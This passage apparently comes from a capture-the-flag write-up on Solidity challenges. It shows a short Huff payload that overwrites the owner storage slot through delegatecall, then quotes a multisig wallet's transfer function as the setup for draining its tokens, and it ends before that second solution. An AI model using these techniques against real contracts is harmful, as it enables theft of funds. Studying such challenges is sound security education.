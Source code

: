 >to be an emotionless counter.

The goal of this challenge is to successfully execute the following function.

```solidity
   function A_delegateccall(bytes memory data) public {
        (bool success, bytes memory returnData) = target.delegatecall(data);
        require(owner == msg.sender);
        flag = true;
    }
```

The `owner` must be `msg.sender`. At address `target`, any contract with a creation code of 24 bytes or less can be deployed using the following `create` function.

```solidity
    function create(bytes memory code) public {
        require(code.length <= 24);
        target = address(new Deployer(code));
    }

```

Since `delegatecall` shares the context, setting the value of storage slot `0` to the transaction originator or the message sender will satisfy `owner == msg.sender`.

Therefore, pass the following contract written in Huff to the `create` function.

```cpp
#define macro MAIN() = takes (0) returns (0) {
    origin 
    0x00
    sstore 
    0x00 0x20 return
}
```

### Wallet

[Source](Wallet)

>How to get money from Multi-sig wallet?

The goal of this challenge is to drain all the tokens the contract has. The following `transferWithSign` function needs to be executed successfully to drain them.

```solidity
    function transferWithSign(address _to, uint256 _amount, SignedByowner[] calldata signs) external {
        require(address(0) != _to, "Please fill in the correct address");
        require(_amount > 0, "amount must be greater than 0");
        uint256 len = signs.length;
        require(len > (owners.length / 2), "Not enough signatures");
        Holder memory holder;
        uint256 numOfApprove;
        for (uint256 i; i < len; i++) {
            holder = signs[i].holder;
            if (holder.approve) {
                // Prevent zero address
                require(checkSinger(holder.user), "Signer is not wallet owner");
                verifier.verify(_to, _amount, signs[i]);
            } else {
                continue;
            }
            numOfApprove++;
        }
        require(numOfApprove > owners.length / 2, "not enough confirmation");
        IERC20(token).approve(_to, _amount);
        IERC20(token).transfer(_to, _amount);
    }
```